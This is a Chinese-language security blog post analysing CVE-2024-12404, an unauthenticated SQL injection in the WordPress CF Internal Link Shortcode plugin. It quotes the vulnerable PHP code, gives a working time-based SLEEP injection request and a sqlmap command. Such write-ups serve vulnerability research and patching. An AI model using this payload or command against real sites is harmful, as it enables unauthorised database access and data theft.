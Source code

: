 #  WordPress CF Link Shortcode 插件存在前台SQL注入漏洞(CVE-2024-12404)   
Mstir  星悦安全   2025-01-26 13:13  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
CF Internal Link Shortcode是一个灵活的短代码和查找工具，用于在帖子/页面内容（或任何解析短代码的地方）创建内部链接。在文章编辑屏幕的侧边栏中添加了一个查找工具，用于查找内部文章的短代码  
  
影响版本:<=1.1.0  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5d6EWgxicNbtCckiaYgYFgtrLVHufgJXPj5iakEWjEkj1ABmibaLMWlu2jkxuJenQ5DuBYSZzkzpVl3bQ/640?wx_fmt=png&from=appmsg "")  
## 0x01 漏洞分析&复现  
  
漏洞点位于 internal-link-shortcode.php 中的cfplsc_id_lookup函数，它使用了 $_GET 来传递参数，且未加过滤就带入到了SQL查询中，导致漏洞产生.  
  
```
function cfplsc_id_lookup(){global $wpdb; $title = stripslashes($_GET['post_title']); $wild = '%' . $title . '%'; $posts = $wpdb->get_results("  SELECT *  FROM $wpdb->posts  WHERE (   post_title LIKE '$wild'   OR post_name LIKE '$wild'  )  AND post_status = 'publish'  ORDER BY post_title  LIMIT 25 ");if (count($posts)) {  $output = '<ul>';foreach ($posts as $post) {   $output .= '<li class="' . $post->ID . '" title="[' . CFPLSC_SHORTCODE . ' id=\'' . $post->ID . '\']">' . esc_html($post->post_title) . '</li>';  }  $output .= '</ul>'; } else {  $output = '<ul><li>' . __('Sorry, no matches.', 'cf-internal-link-shortcode') . '</li></ul>'; }echo $output;die();}

```  
  
  
而能够调用其的函数为   
cfplsc_request_handler ，它被init进了全局调用中，所以只需要 GET传入 /?cf_action=  
cfplsc_id_lookup 即可调用其函数造成SQL注入.  
  
```
function cfplsc_request_handler(){if (!empty($_GET['cf_action'])) {switch ($_GET['cf_action']) {   case 'cfplsc_id_lookup':    cfplsc_id_lookup();    break;   case 'cfplsc_admin_js':    cfplsc_admin_js();    break;   case 'cfplsc_admin_css':    cfplsc_admin_css();    die();    break;  } }}add_action('init', 'cfplsc_request_handler');
```  
  
  
Payload:  
  
```
GET /?cf_action=cfplsc_id_lookup&post_title='+AND+(SELECT+5405+FROM+(SELECT(SLEEP(5)))clin)--+jFKc HTTP/1.1Host: 127.0.0.1Cache-Control: max-age=0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Cookie: su_webp=1; wp-settings-1=libraryContent%3Dbrowse; wp-settings-time-1=1734956910Connection: close
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5d6EWgxicNbtCckiaYgYFgtrLU0ZQdvXIW8JQ7TibfL8vu1k5R9CzZDzxyiaKSXhLq7uHyicPlSIZibaIpA/640?wx_fmt=png&from=appmsg "")  
  
这里延时10S 是因为被传入了两次查询字句，所以延时5S * 2 为10S  
  
SQLMAP语句：  
  
```
python sqlmap.py -u "http://127.0.0.1/?cf_action=cfplsc_id_lookup&post_title=*" --level=3 --dbms=mysql
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5d6EWgxicNbtCckiaYgYFgtrLu3SvHAwolWUNdUevBKStB5SBqaT3sMoEuiaTD8ALtRJqPS5WwiaLIic8w/640?wx_fmt=png&from=appmsg "")  
## 0x02 星球抽奖  
  
**CF-Link插件源码关注公众号发送 250126 获取**  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5d6EWgxicNbtCckiaYgYFgtrLjSnybNhUHibXHRys2EibemWXDTqe5yqKMA9LxWfFOfIPjbBfRP0tOKug/640?wx_fmt=jpeg&from=appmsg "")  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
